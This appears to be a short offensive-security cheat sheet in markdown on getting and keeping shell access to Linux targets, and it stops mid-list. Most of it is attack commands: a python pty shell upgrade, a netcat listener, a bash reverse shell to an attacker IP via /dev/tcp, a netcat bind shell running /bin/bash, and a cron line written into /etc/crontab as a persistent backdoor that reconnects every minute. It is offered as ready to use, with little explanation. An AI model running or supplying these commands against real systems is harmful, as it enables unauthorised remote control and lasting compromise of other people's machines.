 ### Upgrading a shell
- Linux/Unix targets with python
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- Set TERM to resize the terminal
```
export TERM=xterm stty rows <ROWS> cols <COLS>
```
### Reverse shells 
- Set up a listener
```
nc -nlvp <PORT>
```
- Connect to the listener
```
bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```
### Create a bind shell
- If outbound connections from the target are restricted create a bind shell instead
- on the target machine
```
nc -nlvp <PORT> -e /bin/bash
```
- from the attacking machine to connect to the target
```
nc <TARGET_IP> <PORT>
```
### Drop a persistent backdoor
- For long-term nested shell reliability, create a persistent backdoor
- Cron
```
echo '* * * * * bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1' >> /etc/crontab
```
- Using a service or scheduled task